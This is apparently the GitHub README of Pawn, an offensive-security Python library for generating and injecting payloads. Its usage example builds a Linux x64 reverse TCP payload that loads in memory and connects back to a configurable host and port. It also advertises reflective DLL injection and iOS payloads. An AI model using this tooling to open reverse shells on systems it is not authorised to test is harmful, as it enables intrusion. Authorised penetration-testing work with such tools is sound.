 # Pawn

[![Developer](https://img.shields.io/badge/developer-EntySec-blue.svg)](https://entysec.com)
[![Language](https://img.shields.io/badge/language-Python-blue.svg)](https://github.com/EntySec/Pawn)
[![Forks](https://img.shields.io/github/forks/EntySec/Pawn?style=flat&color=green)](https://github.com/EntySec/Pawn/forks)
[![Stars](https://img.shields.io/github/stars/EntySec/Pawn?style=flat&color=yellow)](https://github.com/EntySec/Pawn/stargazers)
[![CodeFactor](https://www.codefactor.io/repository/github/EntySec/Pawn/badge)](https://www.codefactor.io/repository/github/EntySec/Pawn)

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://blog.entysec.com/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

module = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    type='reverse_tcp'
)

module.set('host', '127.0.0.1')
module.set('port', 8888)

payload = pawn.run_module(module)
print(len(payload))
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
